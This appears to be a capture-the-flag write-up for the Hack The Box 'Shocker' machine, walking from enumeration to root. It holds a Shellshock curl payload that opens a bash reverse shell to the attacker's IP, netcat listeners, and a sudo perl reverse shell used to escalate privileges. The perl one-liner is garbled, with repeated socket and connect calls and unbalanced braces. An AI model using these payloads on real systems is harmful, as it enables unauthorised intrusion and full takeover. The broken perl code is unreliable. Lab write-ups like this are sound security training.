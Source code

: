 ## ------------->> Shocker <<----------------

![Image LOGO](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Shocker/shocker.png)

// We will start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.56 -p-
-------

    Nmap scan report for 10.10.10.56
    Host is up (0.31s latency).
    Not shown: 65533 closed ports
    PORT     STATE SERVICE VERSION
    80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
    |   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
    |_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

// Navigating to http://10.10.10.56/ , present us with a website with only photo

![Image 1]()

// Lets search for interesting directories with [gobuster](https://github.com/OJ/gobuster)(By OJ)

    $ gobuster dir -u http://10.10.10.56 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 20 
-------

    ===============================================================
    Gobuster v3.1.0
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.10.10.56
    [+] Method:                  GET
    [+] Threads:                 20
    [+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.1.0
    [+] Timeout:                 10s
    ===============================================================
    2021/07/07 19:21:00 Starting gobuster in directory enumeration mode
    ===============================================================
    /server-status        (Status: 403) [Size: 299]

    ===============================================================
    2021/07/07 19:47:19 Finished
    ===============================================================

// gobuster = no results
// continue to other tool : [feroxbuster](https://github.com/epi052/feroxbuster)(By epi052)

    $ ./feroxbuster -u http:10.10.10.56 -x php,html
------

     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.3.1
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http:10.10.10.56
     🚀  Threads               │ 50
     📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
     👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.3.1
     💲  Extensions            │ [php, html]
     🔃  Recursion Depth       │ 4
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Cancel Menu™
    ──────────────────────────────────────────────────
    200        9l       13w      137c http://10.10.10.56/index.html
    403       11l       32w      299c http://10.10.10.56/server-status
    [####################] - 4m    179994/179994  0s      found:2       errors:0      
    [####################] - 4m     89997/89997   362/s   http:10.10.10.56


// Not found much either

// ets try -f (force adding '/' to the end of directories) and -n (not scan recursevly)

    $ ./feroxbuster -u http:10.10.10.56 -f -n
-------

    .......
    403       11l       32w      294c http://10.10.10.56/cgi-bin/
    403       11l       32w      292c http://10.10.10.56/icons/
    403       11l       32w      300c http://10.10.10.56/server-status/
    .......

// Greate, We found /cgi-bin/ directory

// Lets try to search with common cgi scripts extensions in /cgi-bin/

    $ ./feroxbuster -u http:10.10.10.56/cgi-bin/ -x sh,cgi,pl
---------

    ......
    200        7l       17w        0c http://10.10.10.56/cgi-bin/user.sh
    ......

// Alsome, found .sh file /cgi-bin/user.sh

// Download the file and see the contant

    $ cat user.sh
    
    Content-Type: text/plain

    Just an uptime test script

    15:28:27 up 10 min,  0 users,  load average: 0.00, 0.01, 0.00

// when i type uptime in my terminal it like the same command

    $ uptime 
    
    20:20:21 up  3:51,  2 users,  load average: 2.05, 1.92, 1.67

// Lets check the answer in BurpSuite Reapeter

![Image 2]()

// we needed to download the file becouse the gap between Content-Length and Content-Type

// so the first Content-Type selected is  text/x-sh which stends for - (execute .sh file)

// which mean there is some talking with the server so lets try to inject code to the server

// u can add the request that sent in burpsuite , OR 

// one of the techniques i have found was shellshock one liner paylad:

    $ curl -H "User-Agent: () { :; };/bin/bash -i >&/dev/tcp/10.10.17.8/1444 0>&1" http://10.10.10.56:80/cgi-bin/user.sh

// before that just run a listiner 

    $ rlwrap nc -lvnp 1444
    listening on [any] 1444 ...

// And we have a shell

    $ rlwrap nc -lvnp 1444
    listening on [any] 1444 ...
    connect to [10.10.16.238] from (UNKNOWN) [10.10.10.56] 43410
    bash: no job control in this shell
    shelly@Shocker:/usr/lib/cgi-bin$ 

// And user flag

    cat user.txt
    631d652c................

### ----Privilleges Escalation----

// Lets check what have sudo permissions

    $ sudo -l
    
    Matching Defaults entries for shelly on Shocker:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User shelly may run the following commands on Shocker:
        (root) NOPASSWD: /usr/bin/perl
      
// We can see that shelly able to run perl script with high privilleges(sudo)

// all that last to do is make perl reverse shell

// First open a listiner

    $ rlwrap nc -lvnp 9002

// We can found a perl shell script [here](https://www.revshells.com/)

![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Shocker/3.png)

    shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'use Socket;$i="10.10.17.8";$p=9002;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

// We got root shell !!

    $ rlwrap nc -lvnp 9002
    listening on [any] 9002 ...
    connect to [10.10.16.238] from (UNKNOWN) [10.10.10.56] 41516
    /bin/sh: 0: can't access tty; job control turned off
    $ whoami
    root

// And root flag !

    cat root.txt
    309790.................
